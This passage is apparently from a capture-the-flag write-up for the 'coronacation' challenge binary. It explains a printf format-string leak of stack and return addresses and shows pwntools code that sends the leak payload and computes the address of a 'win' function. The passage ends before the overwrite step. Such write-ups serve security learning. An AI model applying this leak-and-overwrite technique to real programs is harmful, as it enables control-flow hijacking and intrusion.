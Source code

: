 Lines `+0x0040` and `+0x0048` both look interesting.  The first is the saved base pointer for `__libc_csu_init`; _and_ leaks the location of the stack.

The second (`main+14`) is the return address that will return execution to `main` after `close_borders` returns; _and_ leaks the location of the binary process.

x86_64 glibc `printf` parameters 1-5 are located in registers `rsi`, `rdx`, `rcx`, `r8`, `r9` (in that order).  Parameters starting with 6 are located on the stack.  Starting from the top and counting down `main+14` is the 15th parameter--this we need to overwrite with `win`.  Parameter 14 leaks the location of the stack just under `main+14`, IOW writing to this address, less 8, will overwrite the return address, redirecting execution to, well, `win`, for example.


### Exploit

#### Attack Plan

1. Leak stack and `main` locations
2. Compute the locations of _return to main_, and `win`
3. Overwrite _return to main_ with `win`, get the flag


#### Leak stack and `main` locations

```python
from pwn import *

binary = ELF('coronacation')
p = process('./coronacation')
#p = remote('ctf.umbccd.io', 4300)

p.recvuntil('freaking out.\n')
p.sendline('1 %14$p %15$p ')
_ = p.recvuntil('plan.\n')
```

The above will return something like:

```
b"You chose: 1 0x7fffffffe5b0 0x555555555484 \n\n
So we closed our borders. Weren't we doing that anyway with the wall?\n
It's still spreading within our borders what do we do now?\n
1. Reassure everyone the country can handle this. Our healthcare system is the best. Just the greatest.\n
2. Make it a national emergency. Show the people we don't need Bernie's healthcare plan.\n"
```

into `_`; this is the leaked addresses and the prompt from `close_borders`.


#### Compute the locations of _return to main_, and `win`

```python
stack = int(_.split()[3],16)
main = int(_.split()[4],16) - 14
win = main - (binary.symbols['main'] - binary.symbols['win'])

print(hex(win))
print(hex(stack))
```
